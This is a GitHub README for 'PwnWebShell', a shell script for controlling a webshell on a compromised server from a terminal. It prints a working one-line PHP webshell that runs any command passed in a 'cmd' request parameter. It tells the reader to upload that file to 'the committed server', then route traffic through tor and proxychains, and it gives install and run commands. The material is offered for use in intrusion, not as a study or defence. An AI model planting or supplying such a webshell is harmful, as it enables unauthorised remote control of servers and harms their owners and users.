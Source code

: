 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

After that specify the url where the .php file is located in the script variable called url_webshell, example url_webshell="https://example.com/shell.php"

![demo](https://raw.githubusercontent.com/DarkTrojanDev/PwnWebShell/main/img/url_example.png)

**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

**Installation**

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


**Execution**
	
1. `sudo rlwrap ./pwnwebshell.sh`

